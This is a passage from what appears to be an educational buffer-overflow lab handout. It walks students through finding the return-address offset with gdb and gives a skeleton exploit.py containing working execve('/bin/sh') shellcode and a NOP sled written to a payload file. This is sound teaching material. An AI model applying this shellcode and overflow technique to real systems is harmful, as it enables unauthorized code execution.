 Next, lets investigate the binary with the debugger to find the buffer's starting position and the place where the return-address is stored. We want to find the distance (number of bytes) from the start of the buffer that we are going to overflow to the place where we will store the return address. This overflow distance is a decimal number of bytes. Remember the formula for this is: `offset = ebp - starting_address_of_buffer + 4`. Convert to decimal to get the number of bytes. 


Start the debugger. Set a break point at function `bof()`. Start executing the program.
Get the ebp value. Get the buffer's address. Use this information to calculate the offset.

```SHELL
$ gdb stack
gef➤ break bof       
gef➤ run   
gef➤ print $ebp 
gef➤ print &buffer   
gef➤ quit 
```

Write down your calculation of the offset in the `README.md` file in your GitHub repository. 

### Launching Attacks

To exploit the buffer-overflow vulnerability in the target program,
we need to prepare a payload, and save it inside `badfile`. 
We will use a Python program to do that.
A skeleton program called `exploit.py` is included in the lab setup file.
The code is incomplete, and you need to replace some of the essential
values in the code.


```python
#!/usr/bin/python3
import sys

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 0               # Change this number 
content[start:(start + len(shellcode))] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0x00           # Change this number 
offset = 0              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:(offset + L)] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```
